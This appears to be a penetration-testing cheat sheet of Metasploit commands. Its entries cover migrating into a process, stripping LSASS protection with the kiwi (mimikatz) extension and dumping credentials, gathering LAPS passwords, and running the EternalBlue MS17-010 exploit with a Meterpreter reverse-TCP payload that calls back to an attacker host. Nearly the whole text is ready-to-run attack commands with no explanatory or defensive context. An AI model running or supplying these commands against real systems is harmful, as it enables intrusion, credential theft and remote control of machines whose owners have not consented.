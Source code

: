 ## migrate to 64-bit process
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove (32-bit)
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

##  PPL remove (64-bit)
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/laps
```

## Windows EternalBlue (MS17-010) - 32-bit
#plateform/linux #target/remote #cat/EXPLOIT
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <rhost>
set payload windows/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <lport>
exploit
```

## Windows EternalBlue (MS17-010) - 64-bit
#plateform/linux #target/remote #cat/EXPLOIT
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <rhost>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <lport>
exploit
```
